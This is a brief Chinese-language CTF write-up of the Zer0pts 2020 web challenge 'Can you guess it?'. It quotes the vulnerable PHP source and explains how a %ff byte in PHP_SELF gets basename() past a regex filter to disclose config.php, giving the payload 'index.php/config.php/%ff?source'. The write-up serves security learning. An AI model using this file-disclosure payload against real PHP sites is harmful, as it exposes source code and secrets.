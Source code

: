 <img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240321110334666.png" alt="image-20240321110334666" style="zoom:67%;" />



## [Zer0pts2020]Can you guess it?

###### PHP_SELF BASENAME

basename文档：[PHP: basename - Manual](https://www.php.net/manual/zh/function.basename.php)

### <img src="C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240321112247446.png" alt="image-20240321112247446" style="zoom:50%;" />

得到源代码：

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

既满足`preg_match`，也满足`basename($_SERVER['PHP_SELF'])回显是config.php`，同时后端的`%ff?source`也满足`isset`的需要

payload：`index.php/config.php/%ff?source`
